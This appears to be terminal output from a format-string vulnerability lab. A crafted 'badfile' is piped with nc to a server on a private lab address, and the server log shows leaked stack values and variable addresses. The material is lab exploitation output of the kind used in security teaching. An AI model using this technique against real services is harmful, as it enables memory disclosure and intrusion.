 ```bash
$ cat badfile | nc 10.9.0.5 9090
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd4c0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd3e8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | ++++11223344
server-10.9.0.5 |     1000
server-10.9.0.5 |  8049db5
server-10.9.0.5 |  80e5320
server-10.9.0.5 |  80e61c0
server-10.9.0.5 | ffffd4c0
server-10.9.0.5 | ffffd3e8
server-10.9.0.5 |  80e62d4
server-10.9.0.5 |  80e5000
server-10.9.0.5 | ffffd488
server-10.9.0.5 |  8049f7e
server-10.9.0.5 | ffffd4c0
server-10.9.0.5 |        0
server-10.9.0.5 |       64
server-10.9.0.5 |  8049f47
server-10.9.0.5 |  80e5320
server-10.9.0.5 |      5dc
server-10.9.0.5 |      5dc
server-10.9.0.5 | ffffd4c0
server-10.9.0.5 | ffffd4c0
server-10.9.0.5 |  80e9720
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 | e1a62200
server-10.9.0.5 |  80e5000
server-10.9.0.5 |  80e5000
server-10.9.0.5 | ffffdaa8
server-10.9.0.5 |  8049eff
server-10.9.0.5 | ffffd4c0
server-10.9.0.5 |      5dc
```